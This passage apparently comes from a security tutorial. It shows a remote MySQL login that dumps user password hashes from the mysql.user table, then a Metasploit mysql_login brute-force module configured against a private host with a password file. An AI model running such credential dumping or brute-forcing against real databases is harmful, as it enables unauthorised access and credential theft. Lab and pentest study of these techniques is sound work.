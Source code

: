 If successful, you can access the mysql server remotely.

```
root@sh:~# mysql -h 10.0.250.71 -u mysqlsec -p mysql
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 5.6.30-1 (Debian)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
mysql> select Host,User,Password from `mysql`.`user` where User='mysqlsec';
+-----------+----------+-------------------------------------------+
| Host      | User     | Password                                  |
+-----------+----------+-------------------------------------------+
| localhost | mysqlsec | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
| %         | mysqlsec | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
+-----------+----------+-------------------------------------------+
2 rows in set (0.00 sec)
```

## How to crack mysql ?

```
msf auxiliary(mysql_login) > show options

Module options (auxiliary/scanner/mysql/mysql_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE         /tmp/pass.txt    no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            10.0.250.71      yes       The target address range or CIDR identifier
   RPORT             3306             yes       The target port
   STOP_ON_SUCCESS   true             yes       Stop guessing when a credential works for a host
   THREADS           10               yes       The number of concurrent threads
   USERNAME          mysqlsec         no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(mysql_login) > run

```